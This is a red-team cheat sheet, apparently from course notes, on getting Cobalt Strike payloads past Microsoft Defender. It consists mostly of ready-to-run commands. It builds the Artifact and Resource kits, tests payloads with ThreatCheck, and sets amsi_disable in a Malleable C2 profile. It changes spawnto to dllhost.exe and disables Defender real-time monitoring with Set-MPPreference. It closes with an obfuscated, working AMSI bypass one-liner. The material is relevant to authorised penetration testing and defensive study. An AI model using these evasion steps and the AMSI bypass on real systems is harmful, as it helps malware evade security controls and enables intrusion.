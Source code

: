 # Defender Antivirus

# Compile the Artifact kit

    $ ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts

# Compile the resource kit

    $ ./build.sh /mnt/c/Tools/cobaltstrike/resources

# Verify if the payload is AV Safe

    PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
    PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI

# Load the CNA file: 

    Cobalt Strike > Script Manager > Load_ and select the CNA
THEN

    Use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in `C:\Payloads`

# Disable AMSI in Malleable C2 profile

    $ vim c2-profiles/normal/webbug.profile

# Right above the `http-get` block, add the following:

    post-ex {
        set amsi_disable "true";
    }

# Verify the modified C2 profile

    attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile

# Creating custom C2 profiles

    https://unit42.paloaltonetworks.com/cobalt-strike-malleable-c2-profile/

### Note: `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It does not apply to the powershell command.

# Behaviour Detections (change default process for fork & run)

    beacon> spawnto x64 %windir%\sysnative\dllhost.exe
    beacon> spawnto x86 %windir%\syswow64\dllhost.exe

# Change the default process for psexec

    beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
    beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Disable Defender from local powershell session

    Get-MPPreference
    Set-MPPreference -DisableRealTimeMonitoring $true
    Set-MPPreference -DisableIOAVProtection $true
    Set-MPPreference -DisableIntrusionPreventionSystem $true

# AMSI bypass

    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
